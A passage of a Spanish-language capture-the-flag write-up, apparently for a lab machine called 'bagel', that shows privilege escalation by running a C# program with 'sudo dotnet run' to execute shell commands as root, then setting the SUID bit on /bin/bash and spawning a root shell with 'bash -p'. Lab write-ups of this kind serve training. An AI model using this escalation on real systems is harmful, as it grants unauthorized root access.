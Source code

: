```shell
> dotnet new console -o MyApp -f net6.0
```
Dentro de la carpeta MyApp encontramos el archivo Program.cs que ejecuta un "Hello World", borramos eso e introducimos lo siguiente.

```cs
using System.Diagnostics;

class Program
{
    static void Main(string[] args)
    {
     	Process process = new Process();
        process.StartInfo.FileName = "/bin/bash";
        process.StartInfo.Arguments = "-c \"whoami\"";
        process.StartInfo.UseShellExecute = false;
        process.StartInfo.RedirectStandardOutput = true;
        process.Start();

        string output = process.StandardOutput.ReadToEnd();
        process.WaitForExit();

        Console.WriteLine(output);
    }
}
```
Al ejecutar un whoami vemos que el output en root.

```shell
[developer@bagel MyApp]$ sudo /usr/bin/dotnet run
root
```
Solo procedemos a cambiar el argumento y podremos ejecutar bash con altos privilegios.

```shell
[developer@bagel MyApp]$ sudo /usr/bin/dotnet run
[developer@bagel MyApp]$ ls -la /bin/bash
-rwsr-sr-x. 1 root root 1431888 Jan  2 14:01 /bin/bash
[developer@bagel MyApp]$ bash -p
bash-5.2# whoami
root
```
